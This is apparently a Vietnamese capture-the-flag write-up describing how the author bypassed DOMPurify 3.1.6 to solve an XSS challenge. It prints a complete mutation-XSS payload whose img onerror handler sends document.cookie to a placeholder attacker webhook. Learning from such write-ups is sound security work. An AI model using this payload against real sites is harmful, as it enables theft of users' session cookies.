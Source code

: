 X Ec Ec
Thử thách này khiến mình cảm thấy khó khăn là bởi vì ban đầu mình cứ nghĩ là nó sẽ thực hiện bypass các thẻ cùng với sự kiện nhưng thực ra không phải
![image](https://github.com/user-attachments/assets/b629dd21-d3d9-40b9-9547-0f189138ffae)

Đối với thử thách này, nó cho biết nó sử dụng dompurify 3.1.6 nên mình  vào https://github.com/cure53/DOMPurify/releases và xem masatokinugawabáo cáo đó. Sau đó, mình vào đó và xem payload.

Mình phát hiện ra rằng dompurify là một thư viện giúp chặn một số tab hay event có thể xảy ra lỗi XSS, và theo nghiên cứu thì tính năng đã gặp một lỗi xuất hiện trong CVE nó chính là lợi dụng
sự bao bọc của nhiều thẻ và thực hiện việc XSS từ bên trong sẽ vượt qua được vòng lọc của dompurify này:
Sau đây là một ví dụ payload khai thác mà mình đã dùng để vượt qua thử thách :

        <svg>
        <a>
        <foreignobject>
        <a>
        <table>
        <a>
        </table>
        <style><!--</style>
        </svg>
        <a id="-><img src onerror=location.href=YOUR_WEBHOOK+document.cookie>">
ta có thể thấy là payload này thực hiện một số thao tác lồng các thẻ hợp lệ mà dompurify cho phép một cách phức tạp để rồi sau đó thực hiện một thao tác đó là gửi lắng nghe sự kiện onerror để gửi document.cookie lên webhook của hacker.
Và mình đã thành công khai thác được nó.
        
